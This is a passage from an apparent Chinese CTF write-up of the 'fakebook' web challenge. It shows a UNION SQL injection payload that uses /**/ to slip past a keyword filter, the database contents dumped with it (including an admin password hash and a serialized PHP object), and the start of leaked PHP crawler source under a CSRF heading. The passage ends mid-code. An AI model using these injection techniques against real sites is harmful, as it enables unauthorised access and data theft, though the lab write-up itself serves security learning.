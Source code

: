 使用`union`联合注入可以看到回显位，且这里：`union`后面不能跟`select`，可以使用`/**/`绕过

```
payload：?no=-1 union/**/select 1,2,3,4
```

<img src="CTF.assets/image-20230709193017069.png" alt="image-20230709193017069" style="zoom:50%;" />

后面就是常规注入了，这里直接给出数据库内容：

```
数据库：fakebook
数据表：users
字段：no、username、passwd、data
no：1
username：admin
passwd：c7ad44cbad762a5da0a452f9e854fdc1e0e7a52a38015f23f3eab1d80b931dd472634dfac71cd34ebc35d16ab7fb8a90c81f975113d6c7538dc69dd8de9077ec
data：O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:18;s:4:"blog";s:20:"http://www.baidu.com";}
```

#### CSRF漏洞

查看`roots.txt`，可以看到一份`PHP源码`

<img src="CTF.assets/image-20230709193358195.png" alt="image-20230709193358195" style="zoom:50%;" />

```php
<?php


class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        # PHP 爬虫构造初始化
        $ch = curl_init();
```
